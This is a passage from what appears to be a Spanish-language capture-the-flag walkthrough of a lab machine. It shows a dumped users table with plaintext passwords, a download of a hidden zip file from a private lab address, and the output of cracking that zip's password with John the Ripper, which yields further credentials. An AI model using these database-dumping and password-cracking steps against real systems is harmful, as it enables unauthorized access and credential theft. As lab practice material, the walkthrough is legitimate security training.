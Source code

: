 ```bash
Database: injectors_db
Table: users
[5 entries]
+----+-----------------------------+----------+
| id | password                    | username |
+----+-----------------------------+----------+
| 1  | loveyou                     | root     |
| 2  | chicago123                  | jane     |
| 3  | password                    | admin    |
| 4  | no_mirar_en_este_directorio | ralf     |
| 5  | a                           | a        |
+----+-----------------------------+----------+

```

Miramos en :

```bash
http://172.17.0.2/no_mirar_en_este_directorio/
```

Cogemos el contenido :

```
wget http://172.17.0.2/no_mirar_en_este_directorio/secret.zip

secret.zip > x 
ver 2.0 efh 5455 efh 7875 secret.zip/confidencial.txt PKZIP Encr: TS_chk, cmplen=132, decmplen=177, crc=D2FD3E9E ts=7A38 cs=7a38 type=8

john x
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 12 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
computer         (secret.zip/confidencial.txt)     
1g 0:00:00:00 DONE 2/3 (2025-03-27 08:23) 50.00g/s 3093Kp/s 3093Kc/s 3093KC/s 123456..MATT
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

cat confidencial.txt 

You have to change your password ralf, I have told you many times, log into your account and I will change your password.

Your new credentials are:

ralf:supersecurepassword

```
